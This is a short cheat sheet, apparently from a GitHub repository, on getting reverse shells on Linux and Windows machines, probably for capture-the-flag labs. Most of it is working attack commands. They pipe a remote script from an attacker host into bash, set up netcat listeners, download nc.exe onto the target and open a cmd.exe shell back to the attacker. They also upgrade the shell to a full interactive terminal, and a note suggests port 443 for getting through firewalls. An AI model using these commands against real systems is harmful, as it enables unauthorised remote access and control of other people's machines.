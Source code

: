 ## Linux
run server and expose rev.sh as file:
```
python3 -m http.server 80
```

on local machine call:
```
nc -lnvp 1337
```

on remote machine call:
```
curl 10.10.14.106/rev.sh|bash
```

- upgrade shell to bash:
```
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- then to make if fully interactive:
- We press `CTRL^Z` to suspend the shell momentaneously and execute the command below
```bash
stty raw -echo; fg
```
We won't see any output, but we can type reset and specify xterm as the terminal type
```bash
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```
Command above will return us to the remote machine's shell. Now we need to make sure that the following variables are set as following:
```bash
export TERM=xterm
export SHELL=bash
```
change size:
```bash
# on your system
stty size
# on the reverse shell
stty rows x columns y
```
see also: https://gist.github.com/oscar-rk/f27464d7ab0c1fac4adf383b8a3527d3

## Windows
get nc.exe:
```bash
sudo apt install windows-binaries
```

run server and expose rev.sh as file:
```bash
python3 -m http.server 80
```

on local machine call:
```bash
nc -lnvp 1337
```

on remote machine in a directory where allowed to write:
```bash
wget http://10.10.14.9/nc.exe -outfile nc64.exe
.\nc.exe -e cmd.exe 10.10.14.9 1337
```

# Known issues

- on windows many ports are blocked by the firewall but ports like 443 should work